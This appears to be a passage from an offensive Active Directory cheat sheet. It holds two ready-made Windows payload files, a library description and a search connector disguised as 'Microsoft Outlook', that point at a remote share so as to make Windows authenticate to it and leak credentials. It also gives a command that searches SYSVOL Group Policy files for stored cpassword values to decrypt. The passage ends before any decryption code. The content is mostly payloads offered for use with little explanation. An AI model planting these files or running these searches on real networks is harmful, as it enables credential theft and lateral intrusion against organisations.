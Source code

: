 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

#### Windows Search Connectors Files

> Windows Search Connectors (.searchConnector-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```


### Passwords in SYSVOL & Group Policy Preferences

Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.

```powershell
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

Decrypt a Group Policy Password found in SYSVOL (by [0x00C651E0](https://twitter.com/0x00C651E0/status/956362334682849280)), using the 32-byte AES key provided by Microsoft in the [MSDN - 2.2.1.1.4 Password Encryption](https://msdn.microsoft.com/en-us/library/cc422924.aspx)
